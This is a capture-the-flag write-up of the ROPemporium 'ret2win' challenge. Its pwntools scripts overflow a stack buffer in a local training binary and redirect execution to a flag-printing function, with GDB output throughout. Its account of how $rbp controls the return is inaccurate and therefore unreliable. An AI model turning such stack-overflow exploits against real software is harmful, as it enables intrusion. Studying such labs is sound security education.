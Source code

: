 #+title: ROPemporium | ret2win
#+date: <2021-03-22 11:55>
#+filetags: ROPemporium overflow write-up exploitation

* Introduction
Welcome to this little write-up on the very first challenge from ROPemporium.

ROPemporium is a platform for learning the mystic art of return-oriented programming(ROP).
This is accomplished by going through 8 challenges in total, with increasing diffyculty.

But before we begin this little eight-part adventure, let's take a closer look at what ROP is for a thing.

** Buffer overflows
I know that I just said i would explain ROP, but before we get into that.
Let us quickly brushup on what a buffer overflow is.

According to the very first paragraph on [[https://en.wikipedia.org/wiki/Buffer_overflow][wikipedia]]:
#+begin_quote
In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
#+end_quote

So buffer overflows happens when it is possible to put more data into a variable thereby overwriting other memory adresses.

But why is this dangerous??

Because we can manipulate the content in the different registers.
And through this execute abitriary code.

Again this was a veeeery short overview, if you want to read more about buffer overflows, and I recommend that you do, here is a list of resources on the subject:
- [[https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/][Rapid7 - Stack-Based]] :: Explained with Examples
- [[https://0xrick.github.io/][0xrick]] :: Look at his basic binary series
- [[https://github.com/Tzaoh/pwning][Tzaoh's pwning list]] :: Huge list of resources on all kinds of exploitation
- [[https://pwn.college/][pwn.college]] :: A free and opensource exploitation course

Eventually I'll create a series focused just on buffer overflows, but for now you'll have to make do.

** Return Oriented Programming
Again we look towards Wikipedia for more knowledge.
The first paragraph on [[https://en.wikipedia.org/wiki/Return-oriented_programming][Wikipedia]]:
#+begin_quote
Return-oriented programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection and code signing.
#+end_quote

The basic principle for ROP is that we can control which function we return to when we land on a ~ret~ instruction.
There is also the topic of gadgets, but I'll explain that in the ~split~ write-up.

But how does one control which the software will return to?

That is exactly what this challenge is about.

* Recon
Before anything is done you should always to some reconnaissance on your target.
The more you know about the target, the easier it will be to model an attack towards it.
** File
The first thing you should do with any compiled binary that you want to pwn(professionel language for defeating security), is to run the ~file~ command on the the binary.
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
#+end_example
What this tells us is that the binary ~ret2win~ is a 64-bit ELF file.

It is not stripped, which means that if there is any debugging information in the code, we should be able to see it.
It also means symbols are left in so we can see function names.

** Checksec
After looking at what ~file~ gives outputs, the next nifty tool we should use is: ~checksec~.
It is a part of ~pwntools~, [[https://github.com/Gallopsled/pwntools][a CTF framework and exploit development library]], and can tell us about what kind of security measures that the binary is compiled with.
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>checksec ret2win
[*] '/home/c3lphie/hacking/binary_exploitation/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
#+end_example
Here we see that there is basically no security measures put in place... Which one would expect on the very first challenge.
But what is it that we see here?

- Arch :: This is the Architecture for which the binary was compiled for. In this case we see that it is ~amd64-64-little~ I'll break this down further in a minute.
- RELRO :: A security measure which makes some binary sections read-only. Partial RELRO means basically nothing for us. Full RELRO is a lot more secure, but I'll tackle this when I encounter it.
- Stack :: This tells us if there are any canaries compiled into the binary. Canaries are a security measure that protect from stack smashing attacks... Like what we're doing here. Not that they can't be handled
- NX :: A technology which splits the areas of memory up so that data can't be executed. This is the security measure we bypass using ROP
- PIE :: If this was enabled, the binary would have been loaded randomly into memory making it harder to exploit. But this is not something we need to worry about.

The architecture this binary was compiled for was ~amd64-64-little~, let's split this up into two.
~amd64-64~ means that it's for a 64 bit system.
~-little~ tells us that is for a little endian system.
Which you can read more about [[https://www.section.io/engineering-education/what-is-little-endian-and-big-endian/][here]].

** Binary ninja
Now there are probably a ton of other tools that you could use to find other things about the binary.
But at this point I know enough about the target for now.

I have chosen [[https://binary.ninja/][Binary ninja]] for reverse engineering software.
But use what-ever you're most comfortable in, and if you don't have the economy to buy a piece of software, then there are opensource software available like [[https://cutter.re/][cutter]] or [[https://ghidra-sre.org/][ghidra]](if you're not afraid of the NSA ;)).
*** Main function
#+caption: main function disassembled 
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     rax, qword [rel stdout]
  mov     ecx, 0x0
  mov     edx, 0x2
  mov     esi, 0x0
  mov     rdi, rax
  call    setvbuf
  mov     edi, 0x400808  {"ret2win by ROP Emporium"}
  call    puts
  mov     edi, 0x400820  {"x86_64\n"}
  call    puts
  mov     eax, 0x0
  call    pwnme
  mov     edi, 0x400828  {"\nExiting"}
  call    puts
  mov     eax, 0x0
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
Here we see the main function disassembled, there isn't anything interesting to see.
What we want is the function pwnme, which is called on line 14.
So let's take a look at that instead shall we?
*** pwnme function
#+caption: pwnme function disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  sub     rsp, 0x20
  lea     rax, [rbp-0x20 {var_28}]
  mov     edx, 0x20
  mov     esi, 0x0
  mov     rdi, rax {var_28}
  call    memset
  mov     edi, 0x400838  {"For my first trick, I will attem…"}
  call    puts
  mov     edi, 0x400898  {"What could possibly go wrong?"}
  call    puts
  mov     edi, 0x4008b8  {"You there, may I have your input…"}
  call    puts
  mov     edi, 0x400918
  mov     eax, 0x0
  call    printf
  lea     rax, [rbp-0x20 {var_28}]
  mov     edx, 0x38
  mov     rsi, rax {var_28}
  mov     edi, 0x0
  call    read
  mov     edi, 0x40091b  {"Thank you!"}
  call    puts
  nop     
  leave    {__saved_rbp}
  retn     {__return_addr}
#+end_src

Since this is the function, which should be pwned, lets take a closer look using binary ninjas HLIL.
I know I shouldn't rely on it, but I'm still learning so yeah.
#+caption: pwnme function HLIL
#+begin_src c
  void var_28
  memset(&var_28, 0, 0x20)
  puts(str: "For my first trick, I will attem…")
  puts(str: "What could possibly go wrong?")
  puts(str: "You there, may I have your input…")
  printf(format: data_400918)
  read(fd: 0, buf: &var_28, nbytes: 0x38)
  return puts(str: "Thank you!")
#+end_src

Let's clean it up a bit for easier understanding:
#+caption: pwnme function HLIL with var names
#+begin_src c
  void buffer
  memset(&buffer, 0, 32)
  puts(str: "For my first trick, I will attem…")
  puts(str: "What could possibly go wrong?")
  puts(str: "You there, may I have your input…")
  printf(format: data_400918)
  read(fd: 0, buf: &buffer, nbytes: 56)
  return puts(str: "Thank you!")
#+end_src

As we can see we have a buffer with the size 32 bytes, but the read call accepts up to 56 bytes.
This means that we can overflow the buffer and control the stack.
But how should we control the stack?

Well if you look at the last two lines of the disassembly version of ~pwnme~
#+begin_src asm
  leave    {__saved_rbp}
  retn     {__return_addr}
#+end_src
If we somehow managed to overwrite ~__return_addr~ we potentially have the ability to make arbitrary code calls.

*** ret2win function
#+caption: ret2win function disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     edi, 0x400926  {"Well done! Here's your flag:"}
  call    puts
  mov     edi, 0x400943  {"/bin/cat flag.txt"}
  call    system
  nop     
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
This is the function we must aim the ~ret~ instruction towards in the ~pwnme~ function

And as we can see it just executes ~/bin/cat flag.txt~ on the system.

* Exploit
When writing the actual exploit I used 3 tools: ~emacs~, a ~terminal~ and ~gdb~.
The first one being my text editor ;), the second is pretty self explanatory and the last is Gnu Debugger.

** Overflowing the buffer
As I wrote earlier we need to do a bufferoverflow.
We know that from Binary Ninja that we have an input buffer that is 32 bytes long.
But the ~read~ function can read up to 56 bytes into the buffer.

So lets see what happen if we put a bunch of data into the buffer!
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault (core dumped)  ./ret2win
#+end_example
And we crashed!
But why?

If we try again, but run ~ret2win~ with ~gdb~ attached we can see what happens to the registers.
I have set a break point on the ~leave~ instruction just before the ~ret~ instruction.
And a couple of instructions before the ~read~ call.

If we look at the registers before ~read~.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x2
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007fffffffe040  →  0x0000000000000000
$rbp   : 0x00007fffffffe060  →  0x00007fffffffe070  →  0x0000000000000000
$rsi   : 0x00007fffffffbf20  →  0x000000000000203e ("> "?)
$rdi   : 0x00007ffff7f8f4d0  →  0x0000000000000000
$rip   : 0x0000000000400733  →  <pwnme+75> lea rax, [rbp-0x20]
$r8    : 0x60
$r9    : 0x00007ffff7fdc070  →  <_dl_fini+0> endbr64
$r10   : 0x0000000000400918  →  0x6b6e61685400203e ("> "?)
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
The two registers we are interested in are ~$rsp~ and ~$rbp~.

~$rsp~ is the stack pointer, it points to addresses in the stack where the buffer is stored.
~$rbp~ is the base pointer, it points to the memory address which is the "base" for the function.
When returning from a function, we will land where ~$rbp~ points to.

So lets crash this program!
#+begin_example
gef➤  run
Starting program: /home/c3lphie/hacking/binary_exploitation/ropemporium/ret2win/ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#+end_example
Here I just run it in GDB, and wrote a bunch of A's before hitting enter.
Don't mind the gef➤ prompt, that is just a gdb extension which makes exploit development easier.

Below you can see the content of the registers after the crash.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007ffff7ebb0f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe040  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x00007fffffffe060  →  0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007ffff7f8d5a3  →  0xf8f4d0000000000a
$rdi   : 0x00007ffff7f8f4d0  →  0x0000000000000000
$rip   : 0x0000000000400754  →  <pwnme+108> leave
$r8    : 0xb
$r9    : 0x00007ffff7fdc070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
The hexadecimal value for A is 0x41 when ascii encoded.
And as you can see we managed to overwrite ~$rbp~, so now we just need to control ~$rbp~ to point to the ~ret2win~ function.

To do this we need to figure out how much data to insert before address.

*** Cyclic patterns
Using cyclic patterns, we can relatively easy find the padding length of our payload.

#+begin_src python 
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")
  gdb.attach(proc, """
  b pwnme""")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()

  payload = cyclic(56)

  send_recv(payload)
  proc.interactive()
#+end_src

Here I used the ~cyclic~ function, from pwntools, to generate a 56 character long [[https://en.wikipedia.org/wiki/De_Bruijn_sequence][de Bruijn sequence]].
Which we can use to find our padding length

The above script also attaches gdb, so we can find the pattern in the registers and use that in our exploit.
#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007fc84be920f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007ffdaa836178  →  0x6161616c6161616b ("kaaalaaa"?)
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fc84bf645a3  →  0xf664d0000000000a
$rdi   : 0x00007fc84bf664d0  →  0x0000000000000000
$rip   : 0x0000000000400755  →  <pwnme+109> ret
$r8    : 0xb
$r9    : 0x00007fc84bfad070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example

And as you can see ~$rbp~ has some sort of weird string.
If we use the function ~cyclic_find~ in conjunction with ~cyclic~ we can find the padding for the exploit.

#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")
  gdb.attach(proc, """
  b pwnme""")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()

  payload = cyclic(cyclic_find(0x61616169))
  payload += p64(0xdeadbeefcafebabe)

  send_recv(payload)
  proc.interactive()
#+end_src
If we concentrate on the payload, we see that we first calculate our padding.
After that we add ~0xdeadbeecafebabe~ to ensure that we indeed do have control over ~$rbp~.

#+begin_example
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb
$rbx   : 0x0000000000400780  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007fa3497a50f7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffb9d3f2d0  →  0x0000000000000000
$rbp   : 0xdeadbeefcafebabe
$rsi   : 0x00007fa3498775a3  →  0x8794d0000000000a
$rdi   : 0x00007fa3498794d0  →  0x0000000000000000
$rip   : 0x000000000040060a  →  <deregister_tm_clones+26> or eax, 0x1058bf5d
$r8    : 0xb
$r9    : 0x00007fa3498c0070  →  <_dl_fini+0> endbr64
$r10   : 0xfffffffffffffb8b
$r11   : 0x246
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
#+end_example
And if I could point your attention to ~$rbp~, you should see that we have indeed control over the base pointer.

** Useful addresses
Since we already know which function we need to execute, and the binary doesn't have PIE enabled, I went ahead and grabbed the address from Binary Ninja.
|---------+----------|
| Name    |  Address |
|---------+----------|
| ret2win | 0x400756 |
|---------+----------|

** Final exploit
So know that we have control over the base pointer let's make it point towards ~ret2win~ and finish this challenge.
#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./ret2win")

  def send_recv(buffer: bytes):
      proc.recvuntil(b">")
      proc.sendline(buffer)
      return proc.recvline()


  ret2win_addr = 0x400756


  payload = cyclic(cyclic_find(0x6161616B))
  payload += p64(ret2win_addr)

  send_recv(payload)
  proc.interactive()
#+end_src
As you can see instead of ~0xdeadbeefcafebabe~ we just use ~ret2win_addr~.
And if we run the script:
#+begin_example
┌────[~/ha/bi/ropemporium/ret2win on  master [?]
└─>python exploit.py
[+] Starting local process './ret2win': pid 170719
[*] Switching to interactive mode
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 170719)
[*] Got EOF while sending in interactive
#+end_example

* Conclusion
First of all thank you for reading my first proper write-up.
I hope it won't be the last, as I want to publish a new post/write-up/whatever-you-call-it every other week.

So what did we do here?
We got a /very/ basic introduction to buffer overflows and ROP, but hopefully enough to you hooked ;).
We successfully overflowed a buffer which let us control the return address of the function.

My next post will be about ROPemporium split, where we need to make use of so called ROPgadgets.



